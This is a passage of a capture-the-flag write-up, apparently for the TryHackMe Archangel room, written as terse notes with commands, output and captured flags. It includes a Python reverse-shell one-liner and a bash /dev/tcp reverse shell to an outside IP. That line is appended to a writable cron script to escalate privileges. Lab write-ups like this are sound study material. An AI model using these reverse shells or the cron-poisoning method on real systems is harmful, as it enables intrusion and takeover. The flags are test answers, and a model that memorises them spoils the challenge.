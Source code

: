 
- accessed `http://mafialive.thm/php-reverse-shell.php` and got a shell

and the flag


```
www-data@ubuntu:/home/archangel$ cat user.txt
cat user.txt
thm{lf1_t0_rc3_1s_tr1cky}
```

### Priv ESC

- got rick rolled
```
www-data@ubuntu:/home/archangel/myfiles$ cat passwordbackup
cat passwordbackup
https://www.youtube.com/watch?v=dQw4w9WgXcQ

```

- found a cronjob
```
# m h dom mon dow user	command
*/1 *   * * *   archangel /opt/helloworld.sh
```

the contents are


```
cat helloworld.sh
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
```


```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.24.189",9990));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


as per writeup one line bash would work and we would get the `archangle` user shell


- added this to the `hellowolrd.sh` file 
```
www-data@ubuntu:/opt$ echo "bash -i >& /dev/tcp/10.17.24.189/9992 0>&1" >> helloworld.sh
<& /dev/tcp/10.17.24.189/9992 0>&1" >> helloworld.sh
```

- started a netcat listener on port 9992, waited for a minute and got a shell as archangel user and the flag
```
archangel@ubuntu:~/secret$ cat user2.txt
cat user2.txt
thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}
```
